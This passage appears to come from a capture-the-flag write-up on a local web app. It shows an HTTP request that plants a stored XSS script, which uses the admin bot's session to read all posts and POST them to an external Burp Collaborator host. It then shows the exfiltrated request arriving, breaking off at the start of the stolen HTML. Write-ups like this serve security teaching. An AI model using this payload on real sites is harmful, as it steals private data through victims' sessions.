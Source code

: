 This will essentially grab all the posts stored on the application using the admin's credentials (so we can see them all), convert the HTTP response to text and then send it away to my collaborator server. Lets try it out:

```yaml
POST /api/posts HTTP/1.1
Host: 127.0.0.1:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-GB
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:1337/posts/create
Content-Type: application/json
Content-Length: 396
Origin: http://127.0.0.1:1337
DNT: 1
Connection: close
Cookie: session=eyJ1c2VybmFtZSI6InBvb3BvbyJ9.ZMUP8g.53pB0zMJGwwmKo6OvQP4813o0Ek
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{"title":"dnshndasjhndj","content":"<script>\n    fetch(\"http://localhost:1337/posts\", {\n        credentials: \"same-origin\"\n    })\n    .then(response => response.text())\n    .then(function (data) {\n        fetch(\"https://cuan8nbwx4vuhr9pvco06jnc036uuoid.oastify.com/bodyasstring\", {\n            method: \"POST\",\n            body: data\n        })\n    })\n</script>","hidden":false}
```

Then we report the posts:

![Posts reported](images/report.png)

Wait a little bit in Burp Collaborator anndddddd....

```http
POST /convertfirst HTTP/1.1
Host: cuan8nbwx4vuhr9pvco06jnc036uuoid.oastify.com
Connection: keep-alive
Content-Length: 2492
sec-ch-ua: "Not/A)Brand";v="99", "HeadlessChrome";v="115", "Chromium";v="115"
sec-ch-ua-platform: "Linux"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/115.0.5790.110 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://localhost:1337
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:1337/
Accept-Encoding: gzip, deflate, br

<!DOCTYPE html>
<html lang="en">
```